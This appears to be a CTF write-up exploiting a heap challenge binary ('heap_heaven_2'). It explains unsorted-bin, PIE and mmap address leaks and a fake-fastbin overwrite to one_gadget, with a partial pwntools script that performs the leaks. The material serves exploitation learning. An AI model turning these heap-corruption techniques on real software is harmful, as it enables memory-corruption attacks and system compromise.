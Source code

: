 The program will `mmap` an area to create heap. We can write content and leak arbitrary address. But is also has lots of protect mechanism:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The exploit is not difficult. We can use unsorted bin to heap address. While the pointer of *bye* is stored in heap. We can use it to leak PIE base address, libc address(via leaking malloc address here), and mmap area(*bss mmaped*, which is 0x4048). Then, we can create a fake heap (size 0x21) and free it. Then, we overwrite the `fd` pointer one execute **one_gadget**. Following, we free the chunk by `state_bss = (__int64)malloc(0x10uLL);`. The `fd` pointer will be changed to our previous freed chunk. When we exit the function, it calls `state_bss->pointer_chunk->bye()`(pseudo-code). Since we controlled all two fd, it will become `state_bss->fake_fastbin->one_gadget`.

The script:
```python
from pwn import *

p = process("./heap_heaven_2")
#gdb.attach(p)

#context.log_level = 'DEBUG'

def _write(offset, content):
  p.sendlineafter("exit", "1")
  p.sendlineafter("?", str(len(content)))
  p.sendlineafter("?", str(offset))
  p.sendline(content)

def _free(offset):
  p.sendlineafter("exit", "3")
  p.sendlineafter("?", str(offset))

def _leak(offset):
  p.sendlineafter("exit", "4")
  p.sendlineafter("?", str(offset))
  return u64(p.recvuntil('\nPlease').split('\nPlease')[0].ljust(8, '\x00')) / 0x100

# Create Unsorted Bin to leak Heap
payload = p64(0x0) + p64(0x201) + '\x00' * (0x200 - 0x8) + p64(0x21) + '\x00' * (0x20 - 0x8) + p64(0x21)

_write(0, payload)
_free(0x10)
heap_addr = _leak(0x10) -  0x40
print "Heap Address: " + hex(heap_addr)

# Leak PIE via the stored pointer bye
payload = p64(heap_addr + 0x30)
_write(0x0, payload)
bye_addr = _leak(0x0)
pie_addr = bye_addr - 0x1670
print "PIE Address: " + hex(pie_addr)

# Leak mmap address in bss area
_write(0, p64(pie_addr + 0x4048 + 1))
p.sendlineafter("exit", "4")
p.sendlineafter("?", "0")
mmap_addr =  u64('\x00' + p.recvuntil('\nPlease').split('\nPlease')[0].ljust(7, '\x00')) / 0x100000 * 0x1000
print "mmap Address: " + hex(mmap_addr)
```